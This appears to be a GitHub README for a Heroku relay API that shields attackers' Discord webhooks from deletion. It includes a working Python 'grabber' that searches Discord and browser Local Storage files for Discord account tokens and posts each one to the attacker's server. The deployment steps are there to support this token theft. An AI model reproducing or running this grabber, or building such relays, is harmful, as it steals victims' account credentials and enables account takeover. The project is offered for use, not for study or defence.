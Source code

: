<p align="center">
<img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Webhook-Protector?style=flat-square" </a>
<img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Webhook-Protector?style=flat-square" </a>
<img src="https://img.shields.io/github/stars/Rdimo/Discord-Webhook-Protector?color=444444&label=Stars&style=flat-square" </a>
<img src="https://img.shields.io/github/forks/Rdimo/Discord-Webhook-Protector?color=444444&label=Forks&style=flat-square" </a>
</p>
</p>
<p align="center">
<a href="https://github.com/Rdimo/Discord-Webhook-Protector#setting-up-the-api">Setup the api</a> ⋮
<a href="https://cheataway.com">Discord</a>
</p>

#### Discord-Webhook-Protector was made by
Love ❌ code ✅

---

### 🔰・Features
```
> Easy to setup
> Webhook protected by totp so webhook can't be spammed or deleted even if they http debug!
> Accepting only post requests
> Impossible to delete webhook (still possible to spam, but very hard)
```

### 🎈・Code example
Example of a grabber you can use the api for
```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    requests.post(api, headers={"Authorization": key}, json={"content": token})
```

### 📁・Setting up the api
1. Create an account on [Heroku.com](https://heroku.com)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. open api.js and put in your webhook at the top (line 5)
4. open cmd in the directory and type `npm i`
5. Now follow these steps carefully ⇣
```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku main
...
$ heroku ps:scale web=1
$ heroku open
```

### 📜・ Upcoming features
* File upload support (prob not in a while tho since im too lazy)
